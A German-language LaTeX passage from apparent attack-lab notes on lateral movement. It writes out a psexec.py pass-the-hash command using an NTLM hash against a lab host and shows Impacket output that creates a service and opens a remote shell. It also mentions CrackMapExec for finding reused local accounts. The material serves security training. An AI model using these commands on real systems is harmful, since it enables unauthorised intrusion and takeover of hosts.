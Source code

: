 \subsection{Step 5B: Lateral Movement to FS1 via Local User}
Wir werden nun lernen, wie wir überprüfen können, ob dieser lokale Benutzer auch auf anderen Rechnern existiert. Wenn dies der Fall ist UND der Benutzer das gleiche Passwort hat, kann dies missbraucht werden, um mit einer Technik namens "pass-the-hash" seitlich auf das/die andere(n) System(e) zu gelangen.

Mit dem NTLM-Hash des Helpdesk-Benutzers können wir nun mit einem Tool namens \textbf{CrackMapExec} leicht überprüfen, ob dasselbe lokale Benutzerkonto (mit demselben Passwort) auf anderen Systemen existiert.\\

$\rightarrow$ Python Script für pass the hash attacken: \lstinline|psexec.py|\\

\begin{enumerate}
    \item psexec.py - python zum NTLM Hash probieren
    \item \textbf{psexec.py  -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101}
\end{enumerate}

\begin{lstlisting}[language=PowerShell]
    Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

    [*] Requesting shares on 10.0.1.101.....
    [*] Found writable share ADMIN$
    [*] Uploading file LZzQLrwi.exe
    [*] Opening SVCManager on 10.0.1.101.....
    [*] Creating service HIbO on 10.0.1.101.....
    [*] Starting service HIbO.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1397]
\end{lstlisting}

\subsubsection{CrackMapExec}
Mit dem NTLM-Hash des Helpdesk-Benutzers können wir nun mit einem Tool namens CrackMapExec leicht überprüfen, ob dasselbe lokale Benutzerkonto (mit demselben Passwort) auf anderen Systemen existiert.



\subsection{Step 6: Situational Awareness on FS1}
Wir haben nun Zugriff auf den Host FS1.winattacklab.local mit administrativen Rechten erhalten. Das bedeutet, dass wir nicht mehr nach lokalen Methoden zur Privilegienerweiterung suchen müssen. Stattdessen ist das Ziel, andere wertvolle Informationen zu finden, die uns helfen könnten, andere Benutzer oder Hosts zu kompromittieren.

